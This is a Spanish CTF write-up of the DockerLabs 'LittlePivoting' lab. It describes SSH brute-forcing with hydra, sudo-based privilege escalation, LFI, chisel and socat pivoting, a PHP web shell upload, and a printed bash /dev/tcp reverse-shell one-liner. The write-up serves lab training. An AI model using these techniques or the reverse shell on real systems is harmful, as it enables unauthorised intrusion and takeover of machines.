 # WriteUps
CTF Pivoting – DockerLabs (LittlePivoting)

Hoy os comparto un WriteUp de la maquina LittlePivoting de DockerLabs la cual me ha ayudado a recordar como realizar pivoting entre diferentes redes, cosa que llevaba bastante tiempo sin realizar. 
Antes que nada, “Pivoting” es una técnica la cual permite a un atacante acceder a máquinas que estén en distintas redes.
Para desplegar el laboratorio, descargaremos el .zip desde el siguiente enlace o accederemos a la página oficial de DockerLabs y descargaremos el laboratorio “LittlePivoting”.
Una vez descargado,
1.	Descomprimimos el .zip
 

2.	Damos permisos de ejecución al archivo “auto_deploy.sh”
 

3.	Desplegamos el entorno.
 

Perfecto, ya tenemos el entorno listo para empezar. Nuestra máquina atacante tendrá la IP 10.10.10.1 y las redes serán las siguientes:
 
Esquema de red

Primera máquina vulnerable
Lo primero que vamos a hacer es escanear la maquina con la que tenemos conexión (TRUST 10.10.10.2) en busca de puertos abiertos con la herramienta Nmap
 
Encontramos los puertos 22 (ssh) y 80 (http) abiertos. Ahora, vamos a emplear Nmap otra vez, pero con una serie de parámetros para obtener la versión y servicios corriendo en estos puertos.

 
Perfecto, en el puerto 22 tenemos SSH y en el 80 el servicio de Apache2. 
Accedemos a la web
 
Tanto en la web como en el código (Cntl+U) de la misma no encontramos nada, por lo que vamos a emplear la herramienta gobuster para intentar encontrar directorios dentro de esta web.
 
Encontramos un archivo secret.php el cual nos lleva a la siguiente página:
 
Al no encontrar nada más, suponemos que “Mario” podría ser un usuario del sistema y si recordamos también estaba el puerto 22 abierto. Por lo que vamos a intentar hacer fuerza bruta al ssh para conseguir la contraseña de Mario. Emplearemos la herramienta hydra y el famoso diccionario rockyou:

 
Perfecto!! La contraseña del usuario “mario” para establecer una conexión ssh con la primera máquina es “chocolate”. Vamos a conectarnos y a ver que encontramos.
 
Nos encontramos en su home, nuestra finalidad es conseguir elevar privilegios al usuario “root” en cada máquina. Al leer el archivo “/etc/passwd” y no encontrar más usuarios aparte que el de “mario”, suponemos que la escalada será directamente al usuario “root” sin pasar por elevaciones laterales.
Si ejecutamos el comando sudo -l observamos que podemos ejecutar el binario vim con privilegios elevados.
Una muy buena página que nos va a ayudar a saber como aprovecharnos de este binario y escalar a root es GTFOBins
 
En el buscador escribimos “vim” y seleccionamos la opción de “Sudo”, la cual nos dirá cómo explotar la vulnerabilidad.
 
Usaremos la opción a) y listo, somos root de la primera máquina.
 (bash -p)

Perfecto, ahora deberemos conocer qué otra red hay en esta máquina. Para ello usaremos el comando hostname -I
 
La nueva red es la 20.20.20.X, vamos a pasarnos desde nuestra máquina atacante un script para realizar un escaneo:
Máquina atacante
 
Primera máquina vulnerable
 
Script
 
(el escaneo lo realizamos sobre la red “20.20.20.x” que es la que acabamos de descubrir anteriormente con el comando hostname -I)
Al no tener “ping” ni “nc” la máquina vulnerable, nos aprovechamos de “/dev/tcp/”

Bien, obtenemos la ip “20.20.20.2” (la de esta misma máquina), y la 20.20.20.3 (la nueva máquina descubierta).
¿Pues, volvamos a realizar todo el mismo proceso que hemos hecho con la anterior máquina verdad? 
Pues no, aquí nos encontramos con el problema de que a esta nueva red 20.20.20.x no tenemos conexión directa desde nuestra máquina atacante que se encuentra en la red 10.10.10.x. Por lo que comienza el pivoting.

Para tener conexión desde nuestra red a esta nueva, deberemos emplear túneles socks5 con la herramienta chisel, la cual también tendremos que pasarla a la máquina vulnerada como hicimos con el escáner.

Máquina atacante
Creamos el servidor chisel
 
Primera máquina vulnerable
Nos conectamos al servidor chisel creado anteriormente y además con acceso a todos los puertos de la máquina vulnerable.
 

Al conectarnos se abrirá el puerto 1080 en la máquina atacante, que es el que hará el intercambio de comunicaciones entre las máquinas.
Si nunca habéis usado socks5 deberéis de añadir esta línea al final del archivo /etc/proxychains4.conf
socks5 127.0.0.1:1080

Perfecto, ahora ya podemos escanear los puertos abiertos a la segunda máquina vulnerable. Para ello pondremos proxychains delante del comando nmap






Segunda máquina vulnerable
 
Al igual que la anterior nos encontramos con los puertos 22 y 80.
Para poder acceder a la web que se encuentra en el puerto 80 tendremos que configurar la extensión FoxyProxy con la siguiente configuración
 
Y podremos acceder a la web
 

Lo mismo, procedemos a realizar fuzzing web para buscar directorios. Con gobuster no podemos usar proxychains, pero si un parámetro de la herramienta –proxy.
 
Encontramos el directorio /shop, que si accedemos a él veremos lo siguiente
 

Si observamos en la parte de abajo, observamos que dice “Error de Sistema: ($_GET['archivo']");” 
Por lo que podemos sospechar de la existencia de una variable de PHP que contendrá el parámetro “archivo” pasado a través de la URL.
(como cuando intentamos realizar un LogPoisoning)

Probamos a realizar un LFI al parámetro “archivo” para ver si podemos leer el documento /etc/passwd
 
Voilá, funcionó. ¿Con que existen dos usuarios, seller y manchi?
Pues como en la anterior máquina usaremos hydra, rockyou y un padre nuestro.







Con seller no consigo nada, por lo que probaré con manchi y obtenemos su contraseña:
 
Nos conectamos y vemos como elevar privilegios.
 
Vaya, se nos complica la cosa… Vamos a intentar fuerza bruta contra el usuario seller mediante el script Linux-Su-Force.sh y el diccionario rockyou.

Estos se lo pasaremos a la primera máquina vulnerable y seguidamente de esta, a la segunda máquina vulnerable.

manchi@497f53443d88:/tmp$ bash Linux-Su-Force.sh seller rockyou.txt
 
Nos conectamos a con seller y con sudo -l vemos que puede ejecutar el binario /usr/bin/php con permisos privilegiados
 
Recurrimos nuevamente a la página GTFOBins y ejecutamos los comandos del apartado “Sudo”
 
 
¡SEGUNDA MÁQUINA VULNERADA!
Ahora, nuevamente usaremos hostname -I para descubrir la nueva red y el script escaner (que modificaremos poniendo la nueva red) para descubrir la IP de la tercera y última máquina.
 
Nueva red: 30.30.30.x
 
Nueva IP: 30.30.30.3

OKAY. Ahora, tenemos el problema de que desde mi maquina atacante 10.10.10.x no podemos ver la nueva red 30.30.30.x, pero esta si puede ver la 20.20.20.x.
Por lo que emplearemos una nueva herramienta llamada socat. Lo que está hará, será permitirnos que con la ayuda de chisel desde la maquina 30.30.30.2, nos conectemos a la máquina 20.20.20.2, y esa conexión será redirigida a la 10.10.10.1, la nuestra.

Mario primera maquina cogemos socat y se la pasamos a manchi/seller segunda maquina y loe ejecutamos 

Primera máquina vulnerable
 



Segunda máquina vulnerable
 

Máquina atacante
 

Tercera máquina vulnerable
Por último, realizamos un escaneo de puertos abiertos a la nueva máquina descubierta anteriormente (30.30.30.3)
 
Para acceder a la web, deberemos realizar una segunda configuración en FoxyProxy:
 


Y podremos acceder:
 
Usamos gobuster en busca de directorios que nos puedan interesar:
 
Bien, vamos a intentar subir un archivo que nos permita ejecutar comandos por la URL. (como en la segunda máquina)
Aún no sabemos si podemos subir archivos .php. En caso de no poder, deberíamos de realizar una fuerza bruta en la subida de archivos, por ejemplo con BurpSuite, y ver que extensiones son válidas.

 

 
Si podemos subir archivos .php. Acedemos a /uploads/ accedemos al archivo cmd.php. Ahora, en la URL probamos a ejecutar el comando id.
 

Perfecto, por lo que podemos intentar enviarnos una reverse shell.
La reverse shell será enviada a la máquina 30.30.30.2:443, la 20.20.20.3, redirigirá todo lo que venga por la 443 hacia la 20.20.20.2:442, y finalmente de la 20.20.20.2:442 a la 10.10.10.1:441

Segunda máquina vulnerable
 
Primera máquina vulnerable
 

Ahora, en la máquina atacante nos ponemos en escucha por el 441 en una nueva terminal ye ejecutamos la reverse shell en la URL
bash -c "bash -i >%26/dev/tcp/30.30.30.2/443 0>%261"
 
 
Ya tendríamos acceso a la tercera y última máquina vulnerable.
Escalamos privilegios
 
Buscamos la manera de escalar privilegios en GTFOBins
 
 

Y ya habríamos terminado el laboratorio.
Hay que mencionar que este laboratorio está pensado para practicar pivoting, por eso de la facilidad de acceder a las máquinas y elevar privilegios.

¡Espero que os haya gustado y aprendido algo nuevo, un saludo!
